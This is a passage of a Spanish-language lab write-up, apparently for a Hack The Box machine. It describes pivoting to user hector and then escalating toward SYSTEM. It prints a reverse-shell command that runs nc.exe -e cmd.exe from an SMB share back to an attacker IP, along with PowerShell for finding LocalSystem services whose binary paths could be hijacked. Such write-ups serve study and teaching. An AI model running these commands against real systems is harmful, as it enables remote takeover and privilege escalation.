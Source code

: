 Logrando así ejecución como el usuario `hector`.

![Ejecución de comandos como hector](images/post_3.png)

Dadas las limitaciones que se obtuvieron al ejecutar el mismo binario de `netcat` previamente subido debido a permisos, se decidió ejecutar el mismo binario con la diferencia de ejecutarlo a través de red, exponiendo el binario mediante:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

Y ejecutándolo con:

```powershell
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { \\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 4321 }
```

Obteniendo así una segunda revershell pero en esta ocasión como el usuario `hector`.

![Reverse shell como hector](images/post_4.png)

#### hector &rarr; nt authority\system

Buscando obtener información relevante para escalar como administrador, se ejecutó [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), identificando que se cuenta con un gran número de registros a los cuales se tiene acceso completo.

![Lista de registros con acceso](images/post_5.png)

Bajo el conocimiento de escenarios previos, se sabe que es posible modificar la configuración de los servicios para poder secuestrar la ruta del binario, si se lograra identificar un servicio que se estuviera ejecutando como administrador al lograr la modificación e iniciar el servicio se obtendría acceso como administrador. Dichas configuraciones de servicios se suelen encontrar en los valores de los registros mostrados, por lo que, se realizó un filtrado de estos servicios bajo su perfil de ejecución y status para que a la hora de modificarlo se pudiera iniciar el servicio.

```powershell
$services = Get-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\* # Para obtener todos los servicios
$filtered_services = $services | where { ($_.ObjectName -match 'LocalSystem') -And ($_.Start -match '3') } # Para filtar y obtener los servicios que se ejecuten con permisos elevados y que se puedan iniciar manualmente
```

En este punto quedaría filtrar los servicios a los que el usuario hector cuenta con permisos para iniciar cualquier servicio. Para esto se requiere identificar el servicio que cuente con la cadena `RP` según es especificado en [este blog](https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/) en la propiedad de `Sddl` de los permisos desplegados de la lista actual de servicios.

![Propiedad sddl de lista de registros](images/post_6.png)

Lo que individualmente por servicio es ubicado en la propiedad `Security`, en donde se encuentra en forma binaria.
